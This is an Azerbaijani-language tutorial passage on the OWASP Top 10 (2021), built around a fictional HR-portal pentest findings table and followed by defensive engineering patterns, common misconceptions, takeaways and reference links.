Ssenari: `example.local` son beş ildə iki tərtibatçı komandası tərəfindən daxili qurulmuş HR portalını işlədir — Python/Flask, PostgreSQL, nginx reverse proxy arxasında, korporativ şəbəkədə `hrportal.example.local` kimi açıqdır və uzaq işçilərə WAF-ın arxasında olan `hr.example.com` public endpoint-i vasitəsilə.

2026 illik pentest engagement bu xülasəni verdi. OWASP ID-lərinə uyğunlaşdırma:

| Tapıntı | OWASP ID | Ağırlıq | Həll |
|---|---|---|---|
| `GET /api/employee/<id>/payslip` istənilən işçinin maaş talonunu qaytarır | A01 | Kritik | **Patch** — sahiblik yoxlaması əlavə olundu, RBAC matrisi məcbur edildi |
| Login şifrələri salt-sız SHA-256 ilə saxlanılır | A02 | Kritik | **Patch** — `argon2id`-ə köçürüldü; köhnə hash-lər növbəti login-də yenidən hash-lənir |
| `/search?q=` input-u HTML səhifəyə escape etmədən əks etdirir (reflected XSS) | A03 | Yüksək | **Patch** — Jinja autoescape-ə keçid, CSP əlavə |
| `/report/<id>` `id`-ni xam SQL-ə konkatenasiya edir | A03 | Kritik | **Patch** — SQLAlchemy ilə parametrləşdirildi |
| Şifrə sıfırlama "ananın qızlıq soyadı" sualı ilə | A04 | Yüksək | **Yenidən dizayn** — email-token axını + MFA |
| Jenkins admin `10.0.3.14:8080`-də `admin/admin` ilə açıq | A05 | Kritik | **Patch** — SSO, MFA, VPN-yalnız ACL |
| `requirements.txt` Flask 1.1.2 (iki CVE), Werkzeug 0.16-ya pinləndi | A06 | Yüksək | **Patch** — Flask 3.x-ə qaldırıldı; Dependabot açıldı |
| Hesab kilidi yox, işçi self-service-də MFA yox | A07 | Yüksək | **Patch** — 5 uğursuzluqdan sonra kilid + bütün istifadəçilər üçün TOTP MFA |
| HR import template-lərini deserializasiya etmək üçün `pickle.loads` | A08 | Kritik | **Patch** — Pydantic validasiyası ilə JSON-a keçid |
| Uğursuz login hadisələri SIEM-ə göndərilmir | A09 | Orta | **Patch** — mərkəzi Wazuh-a stream + dəqiqədə >10 xəbərdarlıq |
| `/proxy-avatar?url=` profil şəkilləri üçün özbaşına URL-lər çəkir | A10 | Yüksək | **WAF ilə yumşaldılıb** — WAF-da üç S3 domeninin allow-list-i məcburdur + növbəti kvartalda planlaşdırılmış kod fix |

İki tapıntı **patch əvəzinə yumşaldıldı** — avatar SSRF bu gün WAF qaydası ilə bloklanır, çünki kod fix image servisini refactor etməyi tələb edir və növbəti releasə planlaşdırılıb. Trade-off məhsul sahibi tərəfindən açıq qəbul olundu və risk registrinə 90 günlük baxışla yazıldı. Bu düzgün mühəndislik qərarıdır yalnız o halda ki (a) kompensasiya nəzarəti test olunub və monitorinq edilir, (b) real fix üçün təqvim əsaslı öhdəlik var.

Engagement-dən ümumiləşən dərslər:

- **A01 demək olar ki, hər zaman mövcuddur** obyekt-scope-lu endpoint-lərin çox olan tətbiqdə; avtomatlaşdırılmış "A kimi login ol, B-nin obyektlərinə çatmağa cəhd et" testləri növbəti kvartalda üç yeni tapıntı tutdu.
- **A06 hərəkətli hədəfdir** — portal mart ayında təmiz idi, oktyabrda iki yeni kritik CVE var idi, çünki yuxarı axın CVE-ləri gəldi. Dependency skan davamlıdır, bir dəfəlik tapşırıq deyil.
- **A04 tapıntıları A03-dən 10× baha başa gəlir** — reset axınının yenidən yazılması altı həftə çəkdi; reflected XSS çıxış kodlaşdırmasının yenidən yazılması bir günortadan sonra.

---

## Bir çox kateqoriyanı birdən kəsən müdafiə pattern-ləri

Default olaraq tətbiq edilən bir neçə mühəndislik pattern-i Top 10-un böyük hissəsini silir.

**Parametrlənmiş sorğular / ORM-lər.** A03 SQLi-ni demək olar ki, tamamilə bağlayır. Əgər sizin kod bazanız heç vaxt SQL konkatenasiya etmirsə, yeni tərtibatçı təsadüfən SQLi daxil edə bilməz.

**Content Security Policy.** `Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-…'; object-src 'none'; base-uri 'self'; frame-ancestors 'self'`. Sanitizasiya bug-u keçsə belə, A03 XSS partlayış radiusunun çoxunu bağlayır.

**Default-təhlükəsiz framework-lər.** Django, Rails, Laravel, Spring Boot, ASP.NET Core hamısı CSRF token, parametrlənmiş sorğular, templating autoescape, təhlükəsiz sessiya cookie-ləri, güclü KDF ilə şifrə hash-ı ilə gəlir — *default olaraq*. Greenfield Django tətbiqi A02/A03/A07-yə qarşı zəif olmaq üçün səy göstərməlidir; sıfırdan yazılan Express tətbiqi təhlükəsiz olmaq üçün səy göstərməlidir.

**Özünüz yazdığınız yox, əsl auth kitabxanası.** Auth0, Okta, Keycloak, AWS Cognito, Azure AD B2C və ya framework-un birinci tərəf modulu (Django-AllAuth, Devise). A07-nin çoxunu öldürür — sessiya idarəsi, MFA, şifrə siyasəti, kilid, reset axınları hazırdır.

**CI-da SAST + DAST.** SAST (Semgrep, CodeQL, Bandit) mənbə kodu oxuyur və A03/A02/A05 pattern-lərini bildirir. DAST (OWASP ZAP, Burp) işləyən tətbiqə xaricdən dəyir və A01/A05/A07/A10-u bildirir. Hər PR-da ikisini də işlədin.

**SBOM + dependency skan.** Trivy, Dependabot, Renovate, Snyk. A06-nı kvartalda deyil, davamlı bağlayır.

**Təhlükəsizlik başlıqları middleware.** Bir config bloku: `Strict-Transport-Security`, `Content-Security-Policy`, `X-Content-Type-Options: nosniff`, `X-Frame-Options: DENY`, `Referrer-Policy: strict-origin-when-cross-origin`, `Permissions-Policy`. A02/A03/A05-ə birdən çatır.

**Egress filtrləmə.** VPC/egress firewall-da çıxış allow-list-i. A10-u (SSRF) bağlayır, A06 və A08-in partlayış radiusunu məhdudlaşdırır (zərərli dependency-lər telefon edə bilmir).

---

## Yaygın yanlış təsəvvürlər

- **"XSS öz kateqoriyasıdır."** 2021-dən bəri yox — **A03 Injection**-a daxildir. Bəzi köhnə sənədlər, kurslar və siyasət template-ləri hələ onu ayrı sadalayır; yeniləyin.
- **"Top 10 uyğunluğu = təhlükəsiz."** Xeyr. Top 10 *başlanğıc* siyahısıdır — minimum hədd. **ASVS** (Application Security Verification Standard) əsl qeyd siyahısıdır və üç səviyyəlidir. Top 10-u söhbət və triaj üçün, ASVS-ni isə həqiqətən məhsulu yoxlamaq lazım olanda istifadə edin.
- **"A04 haqqında narahat olmağa ehtiyac yoxdur — bug-ları sürətlə patch edirik."** A04 *dizayn* haqqındadır, bug haqqında deyil. Heç bir patch endirim axınında biznes məntiqi səhvini bağlamır; yalnız yenidən dizayn.
- **"Bizim WAF-ımız var, buna görə örtmüşük."** WAF — kompensasiya nəzarətidir, fix deyil. A03/A10-a qarşı kömək edir və A06-ya qarşı vaxt qazandırır, amma A01, A04, A07, A08-ə heç nə etmir. Onu dərin müdafiənin hissəsi kimi qəbul edin.
- **"MFA A07-ni həll edir."** MFA A07 üçün ən yüksək-təsirli nəzarətdir, amma session fixation, çatışmayan cookie flag-lara, auth-bypass məntiqi bug-larına kömək etmir. MFA göndərin *və* qalanını düzəldin.
- **"Top 10 2025 hər şeyi dəyişəcək."** Layihə eyni ruhu saxlayır. Kateqoriyalar yerini dəyişir, adlar təkmilləşir — əsaslar (SQL konkatenasiya etmə, istifadəçi identifikatorlarına güvənmə, dependency patch et, log-la və monitorla) dəyişmir.

---

## Əsas nəticələr

- OWASP Top 10 2021 — sıralanmış, sənaye-baselayn, ən pis veb tətbiq risklərinin onu; auditorlar, pentester-lər və bug bounty-lər bunun üzərində uyğunlaşır.
- **A01 Zəif Giriş İdarəsi** — real engagement-lərdə ən yaygındır; hər endpoint-i "A istifadəçisi B-nin məlumatına çatır" kimi test edin.
- **Injection (A03)** indi XSS-i də ehtiva edir; parametrlənmiş sorğular və kontekst-agah çıxış kodlaşdırması çoxunu öldürür.
- **A04 Zəif Dizayn** — kod problemi deyil, dizayn problemidir; kod yazmadan əvvəl threat model edin.
- **A06 Zəif Komponentlər** — hərəkətli hədəfdir; SBOM + davamlı skan + Dependabot danışıqsızdır.
- **A10 SSRF** bulud mühitində xüsusilə təhlükəlidir (metadata servisi = IAM credential-ları) — egress filtr və IMDSv2.
- Bir neçə pattern (ORM, CSP, yetkin framework-lər, idarə olunan auth, SAST/DAST, SBOM, egress allow-list-lər) Top 10-un çoxunu birdən bağlayır.
- Top 10 — minimum həddir; əsl qeyd siyahısına ehtiyacınız olanda **OWASP ASVS**-dən istifadə edin.

---

## İstinadlar

- **OWASP Top 10 (2021):** https://owasp.org/www-project-top-ten/
- **OWASP ASVS (Application Security Verification Standard):** https://owasp.org/www-project-application-security-verification-standard/
- **OWASP Cheat Sheet Series:** https://cheatsheetseries.owasp.org/
- **OWASP Juice Shop:** https://owasp.org/www-project-juice-shop/
- **DVWA:** https://github.com/digininja/DVWA
- **bWAPP:** http://www.itsecgames.com/
- **OWASP Dependency-Check:** https://owasp.org/www-project-dependency-check/
- **CISA Known Exploited Vulnerabilities kataloqu:** https://www.cisa.gov/known-exploited-vulnerabilities-catalog
- **NIST SP 800-63B (Digital Identity Guidelines):** https://pages.nist.gov/800-63-3/sp800-63b.html
